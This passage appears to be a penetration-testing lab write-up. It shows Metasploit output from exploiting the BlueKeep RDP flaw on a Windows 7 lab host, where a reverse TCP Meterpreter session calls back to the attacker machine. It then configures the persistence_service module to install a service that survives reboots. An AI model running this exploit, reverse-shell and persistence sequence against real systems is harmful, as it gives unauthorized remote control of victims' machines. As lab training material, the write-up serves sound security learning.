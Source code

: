 

But after switching to reverse_tcp payload and specifying the windows target (` Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15.1)`) things finally worked:

```

[*] Started reverse TCP handler on 192.168.38.140:8443 
[*] 192.168.38.141:3389 - Using auxiliary/scanner/rdp/cve_2019_0708_bluekeep as check
[+] 192.168.38.141:3389   - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.38.141:3389   - Scanned 1 of 1 hosts (100% complete)
[*] 192.168.38.141:3389 - Using CHUNK grooming strategy. Size 250MB, target address 0xfffffa8028608000, Channel count 1.
[!] 192.168.38.141:3389 - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.38.141:3389 - Surfing channels ...
[*] 192.168.38.141:3389 - Lobbing eggs ...
[*] 192.168.38.141:3389 - Forcing the USE of FREE'd object ...
[!] 192.168.38.141:3389 - <---------------- | Leaving Danger Zone | ---------------->
[*] Sending stage (206403 bytes) to 192.168.38.141
[*] Meterpreter session 1 opened (192.168.38.140:8443 -> 192.168.38.141:49510) at 2020-04-15 08:35:27 -0700

meterpreter > 
```



Checking the system info:

```
meterpreter > sysinfo
Computer        : HAMID-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : H
Logged On Users : 1
Meterpreter     : x64/windows
```





## Task 3 - Maintain Access (persistance)

To maintain persistent access metasploit offers a way to create a service on windows that will run and persist after reboots. (source: https://www.rapid7.com/db/modules/exploit/windows/local/persistence_service)

The idea is that we get a shell first (in task 2) and use that channel to copy the service files to the target machine. So I put the first session (session number 1) into background in meterpreter and configured the persistent_service exploit. In particular I configured it to use connection from session 1. Options are shown below:

```
msf5> use exploit/windows/local/persistence_service
> options

Module options (exploit/windows/local/persistence_service):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   REMOTE_EXE_NAME                       no        The remote victim name. Random string 
   REMOTE_EXE_PATH                       no        The remote victim exe path to run. Use 
   RETRY_TIME           5                no        The retry time that shell connect 
   SERVICE_DESCRIPTION                   no        The description of service. Random .
   SERVICE_NAME                          no        The name of service. Random string as .
   SESSION              1                yes       The session to run this module on.
```